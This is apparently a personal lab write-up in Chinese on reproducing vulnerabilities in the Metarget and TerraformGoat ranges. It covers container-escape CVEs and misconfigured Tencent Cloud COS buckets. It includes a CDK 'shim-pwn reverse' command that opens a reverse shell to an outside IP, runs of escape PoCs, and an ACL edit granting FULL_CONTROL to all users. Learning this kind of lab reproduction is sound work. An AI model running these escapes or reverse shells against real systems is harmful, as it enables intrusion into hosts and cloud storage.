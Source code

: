 # project01  漏洞复现                                                                             
一、start.......安装配置metarget靶场
1.拉取代码
root@VM-8-3-ubuntu:# git clone https://github.com/Metarget/metarget.git
2.切换目录
root@VM-8-3-ubuntu:# cd metarget/
3.安装依赖
root@VM-8-3-ubuntu:~/metarget# pip3 install -r requirements.txt
![image](https://github.com/user-attachments/assets/9ee7780c-38a3-484c-8455-34d2c8c8e46b)



## 1.	cve-2018-15664 容器逃逸
安装启动环境，查看版本
![image](https://github.com/user-attachments/assets/a224b3ec-36d2-40e3-b335-029301b82bee)
在这里找对应的POC，去做实验https://github.com/Metarget/cloud-native-security-book/tree/main
把poc放进metarget文件夹中，给两个执行文件（xx.sh为后缀）加上执行权限。如：chmod +x xxx.sh
![image](https://github.com/user-attachments/assets/973ded8d-b117-4464-a4fe-e9e978b4a96f)

![image](https://github.com/user-attachments/assets/9e5ec75d-bc5c-41bb-bbd2-c0411e270b83)

通过：执行命令
root@VM-8-3-ubuntu:~/metarget# ./run_write.sh 
FAILED -- HOST FILE UNCHANGED
Sending build context to Docker daemon  7.168kB
Step 1/11 : FROM opensuse/leap
Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
Unable to find image 'cyphar/symlink_swap:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
SUCCESS -- HOST FILE CHANGED
即可触发漏洞，完成复现






2.	cve-2019-13139 命令执行（不行,网上也没有）










3.	cve-2019-14271 容器逃逸(不行)











4.	cve-2020-15257 容器逃逸
安装漏洞环境root@VM-8-3-ubuntu:~/metarget# sudo ./metarget cnv install cve-2020-15257
![image](https://github.com/user-attachments/assets/d1ced1be-4672-4a6a-ae32-0f5e32bc22e5)

查看docker版本，下载ubuntu:18.04
远程连接到容器内部并查看containerd-shim
![image](https://github.com/user-attachments/assets/6462fb9a-6a5d-4e15-925d-df9d3663bf78)

下载漏洞利用工具：https://github.com/cdk-team/CDK/releases/tag/v1.0.2
![image](https://github.com/user-attachments/assets/fb5ec1de-00c9-47eb-8f82-14bb19dd4c08)

使用docker cp目录复制到容器内部
root@VM-8-3-ubuntu:~/metarget# docker cp cdk_linux_amd64 fbf9212c0fe6:/
连接到容器
root@VM-8-3-ubuntu:~/metarget# sudo docker exec -it fbf9212c0fe6 /bin/bash
给执行权限给该cdk
root@VM-8-3-ubuntu:/# chmod +x cdk_linux_amd64 

使用该工具执行漏洞利用。
root@VM-8-3-ubuntu:/# ./cdk_linux_amd64 run shim-pwn reverse 43.138.22.133 80  
（可能存在8888端口安全组没打开的情况）使用80端口，即可
![image](https://github.com/user-attachments/assets/eb1e8fa1-54d5-4d2c-afdb-894f214a5734)

成功获取shell
![image](https://github.com/user-attachments/assets/3ef7cb7c-c7ca-4ac2-8cf0-5dd0e1a9670a)

5.	cve-2019-5736 容器逃逸
安装环境
./metarget cnv install cve-2019-5736
![image](https://github.com/user-attachments/assets/9adbfc34-ce5c-4d0b-b1f4-9b98efcad554)
查看版本
![image](https://github.com/user-attachments/assets/cb9180c1-253b-462f-ba88-5db1d21f4158)
POC链接：
https://github.com/Frichetten/CVE-2019-5736-PoC
下载main.go并上传到服务器，修改payload信息

![image](https://github.com/user-attachments/assets/0067a375-7bc7-4105-bd4f-c68b5c727ee2)


编译
![image](https://github.com/user-attachments/assets/efe4a640-936e-4d98-9553-4eb4647b918f)
启动Ubuntu18的容器
把编译的main文件cp进去
然后登录容器
添加权限
执行POC，即可拿到shell
![image](https://github.com/user-attachments/assets/bd03b3be-97e4-44e4-bac0-5dced1943040)
成功拿shell
![image](https://github.com/user-attachments/assets/fda071fd-3574-4024-aba3-b0480297bb02)



6.	cve-2019-16884 容器逃逸(不行)




7.	cve-2017-1002101 容器逃逸(不行)






8.	cve-2019-11253 拒绝服务（不行）



9.	cve-2019-9946 流量劫持





10.	cve-2020-8554 中间人攻击




11.	cve-2020-8559 权限提升（疑似需要k8s集群环境）




12.	k8s_backdoor_daemonset 持久化










































































































end


二、start.......TerraformGoat安装部署
root@VM-8-3-ubuntu:~# docker pull registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker run -itd --name terraformgoat_tencentcloud_0.0.7 registry.cn-hongkong.aliyuncs.com/huoxian_pub/terraformgoat_tencentcloud:0.0.7
root@VM-8-3-ubuntu:~# docker exec -it terraformgoat_tencentcloud_0.0.7 /bin/bash

![image](https://github.com/user-attachments/assets/0cdd859d-f68f-414e-94dd-fcee73a7a302)
部署完成

1.启动环境（对象遍历）
cd /TerraformGoat/tencentcloud/cos/bucket_object_traversal/

编辑文件vim terraform.tfvars
输入key和id，保存退出
输入命令：terraform init
terraform apply

![image](https://github.com/user-attachments/assets/c5451360-c506-44b3-baa3-058a2be911a7)

看到地址
![image](https://github.com/user-attachments/assets/3d0f2133-cb81-4817-9033-b0410256ca5c)

看到key

![image](https://github.com/user-attachments/assets/bf3e7381-0985-4108-a29d-02135ab0fa04)
添加key访问（可以看到已经有对应的对象被访问/下载）
![image](https://github.com/user-attachments/assets/969cb15f-26c5-4a00-a53f-b8caa7e158d5)

到此存储桶对象遍历漏洞复现完成
销毁漏洞环境：
![image](https://github.com/user-attachments/assets/c8011a92-a4a5-449b-a1a0-51554f95450f)

2.启动环境（任意文件上传）
切换目录
cd /TerraformGoat/tencentcloud/cos/unrestricted_file_upload/

输入密钥和id
vim terraform.tfvars
![image](https://github.com/user-attachments/assets/132fb4ff-6286-42ad-b934-bda4c63521ad)

部署运行
terraform init
terraform apply
可以看到链接
![image](https://github.com/user-attachments/assets/b37b2e12-57f5-4f0f-acb7-018698eb1371)

访问
![image](https://github.com/user-attachments/assets/f666b463-6ef1-4849-b3c4-bc098a297a97)

拼接照片名字，发现可以下载
![image](https://github.com/user-attachments/assets/87e61964-4d80-4b3e-9a96-6eae2856ae83)

现在可以通过PUT方法来覆盖这个文件（在bp中抓包修改方法，重新发包）
![image](https://github.com/user-attachments/assets/4a838295-f40d-451c-990f-7f67618c3132)

再次访问，发现照片是损坏的，这个就是覆盖成功的效果
![image](https://github.com/user-attachments/assets/22a2aee5-df7e-4c23-ab5a-3a4cec9f4113)

销毁环境完成
![image](https://github.com/user-attachments/assets/4da506c6-980b-4bc9-8d43-4f53d1bd1096)

3.公开访问
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_public_access
编辑 terraform.tfvars 文件，在文件中填入的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply
![image](https://github.com/user-attachments/assets/067a197d-d137-4f63-9000-88deb8ef4b1a)

![image](https://github.com/user-attachments/assets/003c9f33-f1cc-481c-828e-f14988671e03)

浏览器访问即可，公开访问是任意都可以访问
![image](https://github.com/user-attachments/assets/b6ae6f92-9970-4352-bfc9-1b29fe7fd47b)

销毁
![image](https://github.com/user-attachments/assets/9f496548-940a-49a4-a395-dc1bdea47f22)

4.ACL可写
这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。
环境搭建
在容器中执行以下命令
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key
vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey
部署靶场
terraform init
terraform apply

![image](https://github.com/user-attachments/assets/3cdf6d7d-5504-4284-8570-1f39e3811171)

访问（被拒绝），拼接?acl，发现可以访问
![image](https://github.com/user-attachments/assets/7a9ece5d-1678-4f43-bdb2-376d5f5a2fc5)

原始：
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
<Grantee xsi:type="Group">
<URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
</Grantee>
<Permission>READ_ACP</Permission>
</Grant>
新的
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
刷新，查看已经添加成功
![image](https://github.com/user-attachments/assets/633a2795-8cc2-4343-b075-7ad5c0771415)

![image](https://github.com/user-attachments/assets/2ff06ba5-100d-4609-a710-9434a6ff84b0)

摧毁
![image](https://github.com/user-attachments/assets/ce11f8a5-f03f-4a15-afac-0707860ffe53)


5.服务端加密未开启
这是一个用于构建腾讯云 COS Bucket 服务端加密未开启的场景。

场景搭建
在容器中执行以下命令

cd /TerraformGoat/tencentcloud/cos/server_side_encryption_disable
编辑 terraform.tfvars 文件，在文件中填入你的tencentcloud_secret_id和tencentcloud_secret_key

vim terraform.tfvars
在腾讯云控制台的 API 密钥管理可以创建和查看您的 SecretID 和 SecretKey

部署靶场

terraform init
![image](https://github.com/user-attachments/assets/402fa18c-0e3f-4914-8377-77c9e40c6b0d)

terraform apply
![image](https://github.com/user-attachments/assets/8e7fb71f-f953-4eb3-93d9-12ea27bb4a76)

打开，查看是未加密（照片）
![85eff7ba0ef95d7ad49f5340aaa7d32](https://github.com/user-attachments/assets/224b5bd8-6515-4178-b2c0-a1f145d51827)

销毁（照片）
![image](https://github.com/user-attachments/assets/ea222537-a88c-42fb-bf4c-7ea3df2e7913)

6.CVM SSRF  （x）








